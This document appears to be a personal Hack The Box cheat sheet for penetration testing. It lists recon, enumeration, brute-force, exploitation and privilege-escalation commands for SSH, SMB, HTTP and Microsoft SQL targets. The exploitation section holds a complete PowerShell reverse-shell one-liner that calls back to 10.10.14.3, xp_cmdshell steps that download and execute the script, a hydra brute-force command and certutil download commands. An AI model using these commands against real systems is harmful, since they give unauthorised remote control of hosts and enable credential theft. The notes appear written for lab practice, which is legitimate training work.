 # HTB_cheatsheet

## Recon

### nmap

Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />
  
## Enumeration

### SSH (22)
try to connect to ssh: `ssh 192.168.57.134`. In case of `no matching key exchange method found. Their offer...` use something in lines of `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1` or `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1 -c aes128-cbc`<br />
see if a banner is returned (for version detection) and if a password is required <br />

### SMB (139/445)

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### HTTP/HTTPS (80/443)

visit webpage in browser

try to enumerate directories via gobuster or dirbuster e.g. `gobuster dir -u https://<IP> -w /usr/share/wordlists/dirbuster/common -k` <br />
typical file extensions are: for Apache .php; for Microsoft asp, aspx; for Others .php, .txt, .rar, .pdf, .docx, ... <br />
(optional) use nikto to find vulnerabilities `nikto -h http(s)://<IP>` <br />


### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />



## Exploitation

### SSH (22)
try to bruteforce ssh login with hydra `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP>:<PORT> -t 4 -V` <br />
bruteforcing creates a lot of noise and will probably be discovered.
TODO: what is this? use auxiliary/scanner/ssh/ssh_login

### SMB (139/445)

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with FTP of ms17_010


### HTTP/HTTPS (80/443)
Burpsuite! <br />


### MicrosoftSQL (TODO)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.

### Hosting a webserver to remotely download files onto the victim machine
- Use `sudo python -m SimpleHTTPServer <PORT>` to run a HTTP-Server inside the current directory <br />
- Use `sudo systemctl start apache2` to run a HTTP-Server on /var/www <br />

Download files on linux via `wget http://<IP>/<File>` or curl TODO <br />
Download files on windows via powershell and `certutil -urlcache -f http://<IP>/<FILE> <PATHONVICTIM>\<FILE>` <br />
Download files on windows via cmd TODO

### Creating malicious code with msfvenom
Show available payloads with `msfvenom -l payloads` <br />

## Privilege Escalation

### Windows
see what user we are: `whoami`
check the CMD history: TODO
check the PowerShell history: `history` or `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

### Linux
see what user we are: `whoami`
check the bash history: `history` or `cat ~/.bash_history`
check sudo privileges of user: `sudo -l`
try to find vulerabilities in kernel, programs, etc.
if we have no idea what to do: upload `LinEnum.sh` or `linuxprivchecker.py` on target machine (e.g. by via own webserver) and run them

## Cheatsheets

msfvenom: https://netsec.ws/?p=331
tty shell: https://netsec.ws/?p=337
Reverse-shell 1-liners: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


